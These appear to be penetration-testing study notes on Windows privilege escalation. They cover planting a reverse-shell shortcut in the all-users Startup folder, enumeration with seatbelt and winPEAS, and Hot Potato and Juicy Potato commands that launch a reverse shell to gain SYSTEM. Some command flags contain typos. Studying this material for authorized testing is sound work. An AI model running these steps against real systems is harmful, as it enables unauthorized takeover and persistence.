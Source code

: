 and it has an open file method:

```
file://c:/windows/system32/cmd.exe
```


## Startup Apps
Each user can define apps that start when they log in.

C:\ProgamData\Microsoft\Windows\Start Menu\Programs\Startup

has apps for all users.  This only accepts Shortcuts

If we can create a file in this directory we can use our reverse shell executable and escalate  priveleges when an admin logs in.

Create a shortcut to reverse shell and copy it to above location


## Installed Apps
Exploit-db.com

Filters: Type: local,  Platform : windows, Has App checked, search: Priv esc

Most of the exploits based on all the ones we covered

```
tasklist 
seatbelt.exe NonstandardProcesses
WinPeasany.exe quiet processinfo
```

## Hot Potato
Attack that uses spoofing attack along with an NTLM relay attack to gain SYSTEM privileges

potato.exe
on windows 7

```
potato.exe -ip <ip of windows machine> -cmd reverseshell.exe -enable_http_server true -enable_defender ture -enable_spoof true -eanale_exhaust true
```

## Juicy Potato
Service Accounts
 https://github.com/ohpe/juicy-potato

 First get a shell with service account by exploiting ASP code or xp_cmdshell SQL...
 ```
 juicypotato.exe -l <port> -p  reverseshell.exe -t * -c {Classid from github}
 ```

 ## Port Forwarding
 Sometimes it is easier to run exploit code on kali, but the vulnerable program is listening on an internal port
 We can forward a port on Kali to the internal port on Windows
